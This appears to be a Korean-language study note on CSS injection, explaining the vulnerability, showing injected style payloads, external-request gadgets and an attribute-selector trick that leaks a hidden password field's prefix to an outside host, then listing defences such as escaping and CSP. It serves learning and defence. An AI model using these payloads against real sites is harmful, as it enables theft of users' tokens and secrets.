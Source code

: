 ```yaml
---
title: "[2025-08-13] CSS Injection"
excerpt: "CSS Injection"

categories:
  - Justice
tags:
  - [CSS Injection]

permalink: /Justice/[2025-08-13] CSS Injection/

toc: true
toc_sticky: true

date: 2025-08-13
last_modified_at: 2025-08-13
---
```


## 🦥 본문

### 정의 및 개념

CSS Injection은 사용자 입력값을 CSS 코드에 직접 삽입할 대 발생하는 취약점. UI 변조, 데이터 탈취, 브라우저 동작 변경 등을 수행할 수 있다.

- 데이터로는 CSRF Token, 피해자의 API Key 등 CSS 선택자를 통해 표현이 가능한 데이터만 탈취 가능.
- CSS 선택자로 표현 불가능한 스크립트 태그 내 데이터는 탈취 불가

### 공격 방법

- 예제 코드
    
    ```jsx
    <style>
    body { background-color: ${theme}; }
    </style>
    <h1>Hello, it's dreame. Interesting with CSS Injection?</h1>
    if '<' in theme:
        exit(0)
    ```
    
    - 사용자의 입력 `theme` 이 배경색을 결정
- 색상 변경
    - 위의 코드에서는 body의 배경 색만 변경이 가능함
    - `yellow; } h1 { color: red` 값을 입력하는 경우 `h1` 태그의 글씨 색 변경 가능
    
    ```jsx
    <style>
    body { background-color: yellow; } h1 { color: red; }
    </style>
    <h1>Hello, it's dreame. Interesting with CSS Injection?</h1>
    ```
    
- IP Ping Back : Client-Side 공격을 통해 데이터를 외부로 탈취하기 위해서는 공격자의 서버로 요청을 보내야 함. Ping Back을 통해 외부 요청 전송 가능
    - 외부 리소스를 불러오는 기능
        
        
        | CSS 가젯 | 설명 |
        | --- | --- |
        | `@import 'https://leaking.via/css-import-string';` | 외부 CSS 파일을 로드합니다. 모든 속성 중 가장 상단에 위치해야 하며, 그렇지 않으면 `@import`는 무시됩니다. |
        | `@import url(https://leaking.via/css-import-url);` | `url` 함수는 URL을 불러오는 역할을 합니다. 상황에 따라서 선택적으로 사용할 수 있습니다. |
        | `background: url(https://leaking.via/css-background);` | 요소의 배경을 변경할 때 사용한 이미지를 불러옵니다. |
        | `@font-face { font-family: leak; src: url(https://leaking.via/css-font-face-src); }` | 불러올 폰트 파일의 주소를 지정합니다. |
        | `background-image: \000075\000072\00006C(https://leaking.via/css-escape-url-2);` | CSS에서 함수를 호출할 때 ascii 형태의 `"url"`이 아닌 hex 형태(`"\000075\000072\00006C"`)도 지원합니다. |
    - `yellow; background: url(”https://aaaaaa.request.attack.server/ping-back”)` 을 입력하면 해당 서버에 요청을 보내는 방식으로 IP ping back 수행
        
        ```jsx
        <style>
        body { background-color: yellow; background: url("https://aaaaaa.request.attack.server/ping-back"); }
        </style>
        <h1>Hello, it's dreame. Interesting with CSS Injection?</h1>
        ```
        
- 데이터 탈취
    - 예제 코드
        
        ```jsx
        <style>
        body { background-color: ${theme}; }
        </style>
        <h1>Hello, it's dreame. Interesting with CSS Injection?</h1>
        <input readonly type="password" value="apple">
        if '<' in theme:
            exit(0)
        ```
        
        - `input` 요소 추가
    - CSS Attribute Selector (특성 선택자)
        
        ```jsx
        input[attr=value] {}
        ```
        
        - `attr`이 `value`인 `input` 요소에 대한 스타일 지정
        
        | 구문 | 설명 |
        | --- | --- |
        | `[attr]` | `attr`이라는 이름의 특성을 가진 요소를 선택합니다. |
        | `[attr=val]` | `attr`이라는 이름의 특성값이 정확히 `value`인 요소를 선택합니다. |
        | `[attr~=value]` | `attr`이라는 이름의 특성값 중 정확히 `value`가 있는 요소를 선택합니다. `attr` 특성은 공백으로 구분된 여러 개의 값을 가질 수 있습니다. |
        | `[attr^=value]` | `attr`이라는 특성값을 가지고 있으며, 접두사로 `value`가 값에 포함되어 있으면 이 요소를 선택합니다. |
        | `[attr$=value]` | `attr`이라는 특성값을 가지고 있으며, 접미사로 `value`가 값에 포함되어 있으면 이 요소를 선택합니다. |
    - `yellow; } input[value^=S3CR3T_] { background: url("https://aaaaaaa.request.dreamhack.games/lols"); }` 코드를 입하면 input 요소의 value 속성의 접두사가 `S3CR3T_` 일 때 해당 서버로 요청 전송
        
        ```jsx
        <style>
        body { background-color: yellow; } input[value^=S3CR3T_] { background: url("https://aaaaaaa.request.dreamhack.games/lols"); }
        </style>
        <h1>Hello, it's dreame. Interesting with CSS Injection?</h1>
        <input readonly type="password" value="apple">
        if '<' in theme:
            exit(0)
        ```
        
    - `input` 태그의 `value` 값을 알아내는 것이 왜 중요한가?
        
        → `readonly` 또는 `hidden input` 요소에 비밀번호, 토큰, 쿠폰 코드, CSRF Token, 세션 키 등을 넣어두는 경우가 많음
        
        → 미리 채워둔 이메일 인증 번호나, 관리자 비밀번호 등을 탈취 가
        

### 대응 방법

1. 입력 검증 : CSS 구문에 사용자 입력을 넣지 않거나, 반드시 화이트리스트로 제한
2. 출력 시 이스케이프 : CSS 컨텍스트에 맞는 escaping 적용. CSS.escape() 사용
3. CSP 적용 : `style-src` 속성을 `self`나 `nonce` 적용